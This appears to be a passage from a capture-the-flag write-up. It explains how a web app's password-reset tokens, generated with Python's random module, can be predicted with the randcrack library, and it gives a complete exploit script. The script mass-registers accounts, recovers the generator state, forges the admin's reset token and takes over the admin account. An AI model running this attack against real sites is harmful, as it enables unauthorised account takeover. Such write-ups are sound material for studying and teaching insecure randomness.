 ```python
    app.run(host='0.0.0.0')
```

There is a Python library ([randcrack](https://github.com/tna0y/Python-random-module-cracker)) that lets you predict the exact seed that is being used if you provide it with a sequence of 624 random numbers, to follow that I generated a full PoC that registers the required sequence of accounts to get their secrets, provides them to randcrack, get the admin's secret at the next random number after (1499-624) random numbers, reset the admin's password and logs in to get the flag.

```python
from randcrack import RandCrack
import requests
import re

rc = RandCrack()

url = "http://f1d27711-f60a-4516-81ea-82cbb6bdea72.cscpsut.com"
# url = "http://127.0.0.1:5000"

holder = "oz"

for i in range(624):
    username = f"{holder}{i}"
    password = f"{holder}{i}"
    data = {"username": username, "password": password}
    response = requests.post(url + "/register", data=data)
    token = re.findall(
        f"Your password reset token is {username}-(-?\d+)",
        response.text,
    )[0]
    rc.submit(int(token))
    print(f"Submitted {i}\t {token}", end="\r")

print()

for i in range(1499 - 624):
    rc.predict_getrandbits(32)

admin_secret = f"admin-{str(rc.predict_getrandbits(32))}"

print(admin_secret)

# reset password
requests.post(
    url + "/reset_password", data={"reset_token": admin_secret, "new_password": holder}
)


res = requests.post(url + "/login", data={"username": "admin", "password": holder})
print(res.text)

```

